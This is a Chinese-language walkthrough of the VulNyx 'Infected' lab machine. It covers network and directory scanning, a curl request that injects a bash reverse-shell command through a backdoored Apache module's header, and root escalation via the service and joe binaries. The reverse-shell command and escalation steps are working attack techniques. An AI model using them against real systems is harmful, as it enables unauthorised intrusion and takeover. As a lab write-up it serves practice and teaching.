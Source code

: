 # 环境

来自[vulnyx_Infected](https://vulnyx.com/#Infected)

# 信息收集

## 主机发现

```bash
sudo nmap -sn 192.168.88.0/24
```

![image-20240723180651852](image/image-20240723180651852.png)

## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.88.35
```

![image-20240723180705563](image/image-20240723180705563.png)

## 目录扫描

```bash
dirb http://192.168.88.35
```

![image-20240723181202907](image/image-20240723181202907.png)

# web渗透

## 利用phpinfo()

访问http://192.168.88.35/info.php，查找字符串可以看到Loaded Modules加载了一个mod_backdoor模块

![image-20240723181630012](image/image-20240723181630012.png)

进行反弹shell

```bash
curl -H "Backdoor:bash -c 'bash -i >& /dev/tcp/192.168.88.35/4444 0>&1'" http://192.168.88.35
```

![image-20240723182156895](image/image-20240723182156895.png)

## 提权

可以看到laurent有service权限

![image-20240723182458194](image/image-20240723182458194.png)

进行[service](https://gtfobins.github.io/gtfobins/service/)提权

```

```

![image-20240723182645948](image/image-20240723182645948.png)

可也看到laurent用户有root权限执行[joe](https://gtfobins.github.io/gtfobins/joe/)

![image-20240723182711566](image/image-20240723182711566.png)

```bash
sudo joe
然后ctrl+k,输入!
有命令交互输入/bin/bash,成功拿shell
```

![image-20240723182929325](image/image-20240723182929325.png)
